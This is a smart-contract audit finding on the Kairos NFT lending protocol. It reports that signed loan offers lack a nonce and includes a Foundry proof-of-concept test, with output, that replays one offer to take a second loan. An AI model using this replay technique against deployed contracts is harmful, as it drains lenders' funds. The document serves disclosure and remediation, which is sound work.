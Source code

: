 J4de

high

# The offer's signature has no challenge value and can be attacked by replay

## Summary

The offer's signature has no challenge value and can be attacked by replay.

## Vulnerability Detail

```solidity
    function offerDigest(Offer memory offer) public view returns (bytes32) {
        return _hashTypedDataV4(typeHashOffer(offer));
    }

    /// @notice computes EIP-712 hashStruct of an nfToken
    /// @param nft - to get the hash from
    /// @return the hashStruct
    function typeHashNFToken(NFToken memory nft) internal pure returns (bytes32) {
        return keccak256(abi.encode(NFTOKEN_TYPEHASH, nft));
    }

    /// @notice computes EIP-712 hashStruct of an offer
    /// @param offer the loan offer to hash
    /// @return the hashStruct
    function typeHashOffer(Offer memory offer) internal pure returns (bytes32) {
        return
            keccak256(
                abi.encode(
                    OFFER_TYPEHASH,
                    offer.assetToLend,
                    offer.loanToValue,
                    offer.duration,
                    offer.expirationDate,
                    offer.tranche,
                    typeHashNFToken(offer.collateral)
                )
            );
    }
```

Kairos uses the offer signed by the lender as the proof of the loan, but there is no challenge in the content of the signature, so this signature can be used for replay attacks.

## Impact

After the borrower repays the money, the borrower can borrow again through the offer that has been used. This is probably something lenders don't want to happen because the price of NFTs can change at any time.

Although controlling the `expirationDate` can indeed alleviate some risks, it is usually necessary to do anti-replay processing for signatures.

Here is my POC:

```solidity
    function testJ4deAudit() public {
        // test init
        getFlooz(signer, money, getOfferArg(getOffer()).amount);
        uint256 tokenId = nft.mintOneTo(BORROWER);

        // signer issued offer
        bytes memory data = abi.encode(getOfferArgs(getOffer()));

        // Simulate the initial state of signer,
        // signer may provide multiple loans,
        // so approve a larger value to kairos
        vm.startPrank(signer);
        money.mint(100 ether);
        money.approve(address(kairos), 100 ether);
        vm.stopPrank();

        vm.startPrank(BORROWER);
        money.mint(100 ether);

        // first borrow
        console.log("[*] money.balanceOf(signer): %d", money.balanceOf(signer));
        console.log("[*] money.balanceOf(BORROWER): %d", money.balanceOf(BORROWER));
        console.log("[*] borrow");
        nft.safeTransferFrom(BORROWER, address(kairos), tokenId, data);
        console.log("[*] money.balanceOf(signer): %d", money.balanceOf(signer));
        console.log("[*] money.balanceOf(BORROWER): %d", money.balanceOf(BORROWER));

        console.log("[*] repay");
        money.approve(address(kairos), type(uint256).max);
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 1;
        kairos.repay(loanIds);
        console.log("[*] money.balanceOf(signer): %d", money.balanceOf(signer));
        console.log("[*] money.balanceOf(BORROWER): %d", money.balanceOf(BORROWER));

        // second loan (replay attack)
        console.log("[*] borrow again");
        nft.safeTransferFrom(BORROWER, address(kairos), tokenId, data);
        console.log("[*] money.balanceOf(signer): %d", money.balanceOf(signer));
        console.log("[*] money.balanceOf(BORROWER): %d", money.balanceOf(BORROWER));
        vm.stopPrank();
```

The result of the runnig is as follows:

```bash
J4de@J4de:~/kairos-contracts$ forge test -vvv -m testJ4deAudit
[⠊] Compiling...
[⠆] Compiling 1 files with 0.8.18
[⠒] Solc 0.8.18 finished in 7.28s
Compiler run successful

Running 1 test for test/Borrow/Borrow.t.sol:TestBorrow
[PASS] testJ4deAudit() (gas: 1326604)
Logs:
  [*] money.balanceOf(signer): 101000000000000000000
  [*] money.balanceOf(BORROWER): 100000000000000000000
  [*] borrow
  useOffer arg.amount = 1000000000000000000
  useOffer arg.offer.loanToValue = 10000000000000000000
  [*] money.balanceOf(signer): 100000000000000000000
  [*] money.balanceOf(BORROWER): 101000000000000000000
  [*] repay
  [*] money.balanceOf(signer): 100000000000000000000
  [*] money.balanceOf(BORROWER): 100000000000000000000
  [*] borrow again
  useOffer arg.amount = 1000000000000000000
  useOffer arg.offer.loanToValue = 10000000000000000000
  [*] money.balanceOf(signer): 99000000000000000000
  [*] money.balanceOf(BORROWER): 101000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 20.20ms
```

## Code Snippet

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/Signature.sol#L27-#L54

## Tool used

Manual Review

## Recommendation

It is recommended to add a challenge to the signature content, which is a common practice in the industry.